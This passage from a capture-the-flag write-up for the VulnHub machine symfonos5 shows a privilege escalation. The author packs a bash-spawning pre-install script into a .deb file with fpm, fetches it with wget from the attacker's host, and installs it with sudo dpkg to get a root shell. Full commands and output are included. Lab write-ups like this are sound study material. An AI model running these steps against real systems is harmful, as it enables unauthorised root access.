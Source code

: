 #### Escalation

Privilege escalation method using /usr/bin/dpkg was found [here](https://lsdsecurity.com/2019/01/linux-privilege-escalation-using-apt-get-apt-dpkg-to-abuse-sudo-nopasswd-misconfiguration/)

At first, an attempt was made to compile a c package into a def file as shown
below.

```
lifesfun:~/vulnhub/symfonos5# cat shell.c 
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
setuid(0); setgid(0); system("/bin/bash");
}

lifesfun:~/vulnhub/symfonos5# fpm -s dir -t deb --name exp --before-install shell.c .
Debian packaging tools generally labels all files in /etc as config files, as mandated by policy, so fpm defaults to this behavior for deb packages. You can disable this default behavior with --deb-no-default-config-files flag {:level=>:warn}
Created package {:path=>"exp_1.0_amd64.deb"}
```

However, the above gave an error when executing it with dpkg.

```
zeus@symfonos5:~$ sudo /usr/bin/dpkg -i exp_1.0_amd64.deb 
Selecting previously unselected package exp.
(Reading database ... 53057 files and directories currently installed.)
Preparing to unpack exp_1.0_amd64.deb ...
/var/lib/dpkg/tmp.ci/preinst: 4: /var/lib/dpkg/tmp.ci/preinst: Syntax error: "(" unexpected
dpkg: error processing archive exp_1.0_amd64.deb (--install):
 new exp package pre-installation script subprocess returned error exit status 2
Errors were encountered while processing:
 exp_1.0_amd64.deb
```

Following, a simple bash command was used instead and it worked.

```
lifesfun:~/vulnhub/symfonos5# cat suid.sh 
#!/bin/bash

/bin/bash
```

When the package was downloaded using wget and ran, the root shell was obtained.

```
zeus@symfonos5:~$ wget 192.168.211.146/exp_1.0_amd64.deb
--2020-01-20 22:01:39--  http://192.168.211.146/exp_1.0_amd64.deb
Connecting to 192.168.211.146:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1076 (1.1K) [application/x-debian-package]
Saving to: ‘exp_1.0_amd64.deb’

exp_1.0_amd64.deb          100%[=====================================>]   1.05K  --.-KB/s    in 0s      

2020-01-20 22:01:39 (157 MB/s) - ‘exp_1.0_amd64.deb’ saved [1076/1076]

zeus@symfonos5:~$ sudo /usr/bin/dpkg -i exp_1.0_amd64.deb 
(Reading database ... 53057 files and directories currently installed.)
Preparing to unpack exp_1.0_amd64.deb ...
root@symfonos5:/# 
```
